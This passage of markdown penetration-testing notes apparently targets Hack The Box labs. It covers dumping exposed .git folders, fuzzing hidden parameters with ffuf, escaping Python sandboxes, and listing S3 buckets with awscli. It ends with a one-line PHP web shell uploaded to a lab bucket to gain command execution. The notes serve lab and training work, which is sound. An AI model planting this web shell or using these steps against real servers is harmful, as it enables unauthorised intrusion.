     Specifies the policy for SMTP MTA Strict Transport Security (MTA-STS) to enhance email security.
  
- `/.git`

  Hashes of a git folder. To reconstruct it:

  ```bash
  git-dumper [URL] [OUTPUT DIR]
  ```

#### Hidden parameters

1. Check for hidden parameters:

   `paramscan [URL]` 

2. Verify the behaviour with curl

3. Fuzz using `ffuf`: REMEMBER TO COPY THE REQUEST EXACTLY!

```bash
ffuf -X POST -d 'PARAM1=value1&PARAM2=value2'		#same as curl
```

There are different types of POST parameters formats, depending on the *content type*:

- `Content-Type: application/x-www-form-urlencoded` &rarr; `-d 'PARAM=value'`
- `Content-Type: application/json` &rarr; `-d "{'PARAM':'value'}"`
-  `Content-type: multipart/form-data`

### Common Application

#### Python editor

https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes

#### Amazon Buckets

The are different types of subdomains, for example `s3.` are amazon buckets subdomains on the cloud. Always add the subdomains to the `/ets/hosts/` file next to the domain..

Use `awscli` to interact with them. 

To list the buckets:
`aws --endpoint=http://s3.thetoppers.htb s3 ls`

To list the objects inside the buckets just specify the bucket at the end of the previous command:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

If php files are shown, it means that the bucket is handling the php page. Thus creating an appropriate php file and coping it in the bucket, will open a shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

## Exploitation
